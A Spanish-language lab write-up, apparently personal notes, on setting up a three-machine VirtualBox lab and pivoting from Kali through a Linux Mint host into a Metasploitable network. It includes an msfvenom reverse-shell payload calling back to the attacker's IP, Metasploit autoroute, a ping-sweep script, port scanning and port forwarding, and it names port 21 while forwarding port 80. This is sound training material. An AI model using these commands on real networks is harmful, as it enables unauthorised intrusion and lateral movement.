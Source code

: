 ### CONFIGURACIÓN LABORATORIO
Lo primero será ir a la parte de herramientas y Administrador de red: 
![[Pasted image 20240615202507.png]]

Y ahora vamos a la parte de redes NAT y creamos nuestra primera red con estos parámetros:
![[Pasted image 20240615202518.png]]

Por tanto, una vez creada esta red sobre la que haremos pivoting, veremos como configuraremos las 3 máquinas:
MÁQUINA KALI:
![[Pasted image 20240615202536.png]]

MÁQUINA LINUX INTERMEDIA:
![[Pasted image 20240615202541.png]]

MÁQUINA METASPLOITABLE FINAL:
![[Pasted image 20240615202547.png]]

De tal forma que la máquina kali tiene conectividad solo con la máquina Linux Mint; y la máquina Linux mint tiene conectividad tanto con la Kali como con la metasploitable:
![[Pasted image 20240615202556.png]]
### PIVOTING
Lo primero será ponernos a la escucha con el multi/handler, utilizando el siguiente payload:
```bash
set PAYLOAD linux/x86/meterpreter/reverse_tcp
```
Y ahora con msfvenom generamos el payload:
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.0.32 LPORT=4444 -f elf -b '\x00\x0a\x0d' -o virus
```

![[Pasted image 20240615202610.png]]

Lo ejecutamos dentro de la máquina objetivo:
![[Pasted image 20240615202616.png]]

Y en metasploit habremos recibido una sesión de meterpreter:
![[Pasted image 20240615202621.png]]

En este punto ya podemos listar las interfaces de red para poder establecer el tráfico o la tunelización con el comando ipconfig:
![[Pasted image 20240615202626.png]]

Ahora para tunelizar todo el tráfico de la máquina ubuntu a la máquina atacante, tenemos que poner la sesión de meterpreter en segundo plano, de tal forma que podamos listarla usando el comando sessions -l:
![[Pasted image 20240615202631.png]]

Ahora utilizamos el módulo de autoroute para enturar el tráfico:
```bash
use post/multi/manage/autoroute
```

![[Pasted image 20240615202637.png]]

Ahora vamos a detectar equipos conectados dentro de la red interna, por lo que usaremos el siguiente script de bash:
```bash
#!/bin/bash

for i in {1..255}; do
    timeout 1 bash -c "ping -c 1 10.10.10.$i" >/dev/null
    if [ $? -eq 0 ]; then
        echo "El host 10.10.10.$i está activo"
    fi
done
```
Compartiéndolo desde nuestra máquina atacante:
![[Pasted image 20240615202643.png]]

Con la máquina víctima:
![[Pasted image 20240615202646.png]]

Lo ejecutamos y detectamos equipos:
![[Pasted image 20240615202702.png]]

Por ejemplo, vamos a escanear la IP 10.10.10.5, por lo que usamos el siguiente módulo para escanear sus puertos:
```bash
use scanner/portscan/tcp
```
Le pasamos la IP de la máquina objetivo (por ejemplo la 10.10.10.5) y vemos que nos devuelve los puertos abiertos:
![[Pasted image 20240615202707.png]]

Vamos a suponer que queremos llegar al puerto 21, por lo que tendríamos que hacer un port forwarding:
```bash
portfwd add -l 5000 -p 80 -r 10.10.10.5
```

